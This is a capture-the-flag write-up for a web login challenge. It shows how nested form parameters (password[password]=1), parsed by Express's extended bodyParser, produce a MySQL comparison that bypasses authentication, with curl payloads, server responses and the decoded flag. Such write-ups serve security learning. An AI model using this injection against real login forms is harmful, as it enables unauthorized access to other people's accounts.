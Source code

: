 **Knowledge**:
- MySQL SELECT command (for payload construction)
- Node JS (for prototype testing)

**Task**: We are given a login form and webserver's logic. Our goal is to login as michelle and seize the flag.

**Investigation**: 
- Test with common SQL injections. Failed
- Test with standard user/pass = admin/admin. Passed

Upon navigating through the `/flag` directory, we are informed that only "Michelle's account" would see the flag. Since common SQL injections do not work, we need to understand how server parses the login form. Base on the source `app.js`, the express server uses `bodyParser` module to process the form. With "extended" property is set to true, the form will be parsed as follows:
```javascript
var bP = require("bodyParser")
var ret = bP.parse("password[age]=13")
console.log(ret) # The result is {password:{'age'='13'}}
```
We now have some ideas of what should be included in the form. Let's setup the local server (web, database) and observe how the webserver parses our payload.

```bash
curl -v http://localhost:3000/login -d 'username=michelle&password[age]=13'
#-v tells the target webserver
#-d tells what data we will post to the server
```
We are presented with the following error:
```bash
code: 'ER_BAD_FIELD_ERROR',
errno: 1054,
sqlMessage: "Unknown column 'age' in 'where clause'",
sqlState: '42S22',
index: 0,
sql: "Select * from users where username = 'michelle' and password = `age` = '13'"
```

The error is informative. It tells us how the final sql statement looks like, and what error we should fix to make our payload works. Since backtick is allowed, `age` is evaluated as a column. We were asking for a user whose username is michelle and his password is equal to his age, which does not exist in the database. To fix this, we can change the payload so that the statement becomes:

```ruby
Select * from users where username = 'michelle' and password = `password` = '13'
```

Since the `password` column is known, we fixed the error. However, we need to handle the '13'. Leaving it empty will cause syntax error, while filling it with random number will not give us the row with michelle's account. MySQL evaluates the whole statement from left to right, which means that password = `password` would be compared first, then the output of the first comparison is evaluated against '13'. Since the first equality is evaluated to 1 (true), the second equality is evaluated to 0 (false), as '1'!='13'. To solve this, we set 13 to 1. Our expected sql statement is then:

```ruby
Select * from users where username = 'michelle' and password = `password` = '1'
```
The above sql statement can be generated from the following payload:

```bash
curl -v http://localhost:3000/login -d 'username=michelle&password[password]=1' 
```

Replacing the local address with log-me-in website, we can obtain michelle's session:

```bash
#Request
curl -v https://log-me-in.web.ctfcompetition.com/login -d'username=michelle&password[password]='1''

#Response
 POST /login HTTP/2
> Host: log-me-in.web.ctfcompetition.com
> user-agent: curl/7.68.0
> accept: */*
> content-length: 38
> content-type: application/x-www-form-urlencoded
> 
* We are completely uploaded and fine
* Connection state changed (MAX_CONCURRENT_STREAMS == 100)!
< HTTP/2 302 
< content-type: text/plain; charset=utf-8
< x-powered-by: Express
< location: /me
< vary: Accept
< set-cookie: session=eyJ1c2VybmFtZSI6Im1pY2hlbGxlIiwiZmxhZyI6IkNURnthLXByZW1pdW0tZWZmb3J0LWRlc2VydmVzLWEtcHJlbWl1bS1mbGFnfSJ9; path=/; httponly
< set-cookie: session.sig=bm5eHrmgRjBNmerS49mKNDV_tP4; path=/; httponly
< x-cloud-trace-context: 0454fe252df470a913b976399f989e68
< date: Sat, 29 Aug 2020 07:55:09 GMT
< server: Google Frontend
< content-length: 25
< 
* Connection #0 to host log-me-in.web.ctfcompetition.com left intact
Found. Redirecting to /me.
```

Decoding the cookie-session with base64, we obtain the flag:

{"username":"michelle","flag":"CTF{a-premium-effort-deserves-a-premium-flag}"}
